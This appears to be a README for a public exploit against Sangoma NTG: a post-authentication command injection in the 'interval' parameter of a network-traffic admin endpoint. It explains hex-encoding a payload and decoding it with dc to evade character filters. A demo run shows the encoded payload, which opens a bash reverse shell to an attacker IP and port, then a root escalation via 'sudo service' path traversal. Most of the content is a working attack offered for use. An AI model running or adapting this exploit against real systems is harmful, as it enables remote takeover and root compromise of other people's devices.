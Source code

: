 # sangoma-ntg-rce
Sangoma NTG Post-Auth RCE.

This exploit demonstrates a couple of more interesting things.

1. Using 'dc' as a decoder for an encoded payload, to work around character limitations (in this case, angle brackets being blocked).
2. "It doesn't run every time, so lets just try a bunch of times until it works" workarounds for "execution only happens during certain states".

The basic gist of the exploit overall is simple - its a post-auth command injection in `/admin/network-traffic.xml.php` endpoint, `interval` parameter. `interface` parameter is also vulnerable to the same injection - but here we just use the interval one...

Requires: username, password.

Demo:
```
% python3 ntg-postauth-rce.py http://192.168.0.41:81 192.168.0.55 1338 root password
[+] Attempting to log into NTG...
[*] Auth succeeded, we can proceed...
echo '16i 6E6F6875702062617368202D63202762617368202D69203E26202F6465762F7463702F3139322E3136382E302E35352F3133333820303E2631202627 P' | dc | sh
[*] Using 192.168.0.55:1338 for connectback...
[+] starting handler on port 1338
[+] Doing the command injection... It takes a few tries sometimes...
[*] Attempt... 0
[*] Got connection from 192.168.0.41
[$] Shell popped :P
[*] Attempt... 1
bash: no job control in this shell
bash-3.2$ [*] Attempt... 2


bash-3.2$ id;uname -a;pwd
id;uname -a;pwd
uid=101(webconfig) gid=102(webconfig) groups=102(webconfig)
Linux sangomantg.netborder.lan 2.6.39-4.sng2 #1 SMP Wed Dec 21 17:26:48 EST 2011 i686 i686 i386 GNU/Linux
/var/webconfig/htdocs/admin
bash-3.2$ sudo service ../../../../bin/sh
sudo service ../../../../bin/sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

```
